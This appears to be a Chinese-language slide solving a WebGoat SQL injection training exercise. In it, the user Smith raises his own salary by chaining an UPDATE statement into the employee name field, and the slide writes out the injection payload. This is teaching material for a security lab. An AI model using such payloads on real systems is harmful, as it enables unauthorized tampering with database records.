

# (A3) Injection - SQL Injection (intro)
第12題 Compromising Integrity with Query chaining
Smith 發現 Tobi and Bob 賺得比自己多，因此 Smith 嘗試透過 SQLI 修改自己的薪資
Answer
1.
確認 Update SQL 語句
UPDATE employees SET SALARY = 1000000 WHERE LAST_NAME = 'Smith'
2.
將 SQL 語句注入於欄位中
Employee Name:
Smith
1'; UPDATE employees SET SALARY = 999999 WHERE LAST_NAME = 'Smith'; --
Authentication TAN:
11